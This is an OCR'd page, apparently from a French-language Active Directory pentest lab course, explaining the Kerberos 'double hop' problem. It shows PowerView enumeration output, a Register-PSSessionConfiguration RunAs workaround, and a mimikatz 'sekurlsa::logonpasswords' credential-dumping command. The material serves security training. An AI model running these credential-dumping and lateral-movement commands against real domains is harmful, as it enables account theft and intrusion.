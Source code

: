 ```
       Cache Flags: 0x8 -> ASC
       Kdc Called:

```

Nous ne pouvons pas non plus interagir directement avec le DC à l'aide de PowerView

  Problème de "double saut" Kerberos

```
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname

Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
   + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
   + FullyQualifiedErrorId : DirectoryServicesCOMException

```

Une astuce que nous pouvons utiliser ici consiste à enregistrer une nouvelle configuration de session à l'aide de la cmdlet [Register-PSSessionConfiguration](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) .

  Problème de "double saut" Kerberos

```
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

 WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce
 a security boundary between different user sessions that are created by using this endpoint. Verify that the Windows
PowerShell runspace configuration is restricted to only the necessary set of cmdlets and capabilities.
WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has
recently been unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be
 required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session
configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=backupadmsess}                backupadmsess

```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname